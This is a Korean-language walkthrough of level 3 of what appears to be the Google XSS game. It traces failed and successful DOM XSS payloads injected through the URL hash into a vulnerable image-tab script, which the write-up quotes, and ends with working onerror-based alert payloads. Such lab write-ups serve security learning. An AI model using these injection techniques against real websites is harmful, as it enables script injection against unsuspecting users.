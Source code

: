 # Level3 : That sinking feeling...

- 몇가지 일반적인 js 함수들은 어떤 스크립트든 브라우져가 실행할 수 있도록 하는 'execution sinks'라고 불린다.
- 어디서도 페이로드를 입력할 수 없기 때문에 URL바를 활용하여 문제를 풀어야한다. 즉 숨겨진 구멍을 찾아서 문제를 해결한다

![Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled.png](Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled.png)

- 4 ❌

    ![Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%201.png](Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%201.png)

    결과 : img 태그의 src 속성으로  cloud + {input} +.jpg가 들어간다.
    ⇒ onerror 속성을 줄 수 있는지 확인한다.

- 4.jpg" onerror=alert(3); ❌

    ![Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%202.png](Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%202.png)

    결과 : 들어가지만 인식되지 않는다.

    ⇒ 태그를 닫아서 스크립트로 실행해본다.

- 4"><script>alert(3);</script> ❌

    ![Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%203.png](Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%203.png)

    결과 : 정확히 왜 안되는지 모르겠음 

    ⇒ 스크립트 코드를 자세히 확인해본다.

- num="><img src=4 onerror=alert(3);> ❌

    ```jsx
    function chooseTab(num) {
            // Dynamically load the appropriate image.
            var html = "Image " + parseInt(num) + "<br>";
            html += "<img src='/static/level3/cloud" + num + ".jpg' />";
            $('#tabContent').html(html);

            window.location.hash = num;

            // Select the current tab
            var tabs = document.querySelectorAll('.tab');
            for (var i = 0; i < tabs.length; i++) {
              if (tabs[i].id == "tab" + parseInt(num)) {
                tabs[i].className = "tab active";
                } else {
                tabs[i].className = "tab";
              }
            }

            // Tell parent we've changed the tab
            top.postMessage(self.location.toString(), "*");
          }

          window.onload = function() { 
            chooseTab(unescape(self.location.hash.substr(1)) || "1");
          }

          // Extra code so that we can communicate with the parent page
          window.addEventListener("message", function(event){
            if (event.source == parent) {
              chooseTab(unescape(self.location.hash.substr(1)));
            }
          }, false);
    ```

    스크립트를 확인해본 결과로 num이라는변수를 통해서 Dom XSS가 가능하다는 것을 알 수 있다.

    ![Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%204.png](Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%204.png)

    결과 : 이번에도 입력은 제대로 들어갔으나 인식되지 않는다.

    ⇒ 뭔가 빼 먹은 느낌이다. 자세히 확인해본다.

- num='"><img src=4 onerror=alert(3);> ✅

    ![Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%205.png](Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%205.png)

    ![Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%206.png](Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%206.png)

    결과 :  src 부분에 '를 통해서 닫아주면 제대로 입력되어 실행된다.

    ![Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%207.png](Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%207.png)

    ![Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%208.png](Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%208.png)

- num=' onerror=alert(3)> ✅

    ![Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%209.png](Level3%20That%20sinking%20feeling%200b601cee688a48378d51d00bddb18372/Untitled%209.png)

    '만 있으면 된다면 태그가 아닌 속성에 대해서도 가능하지 않을까 해서 시도해봤다.

    결과 : 가능하다.

---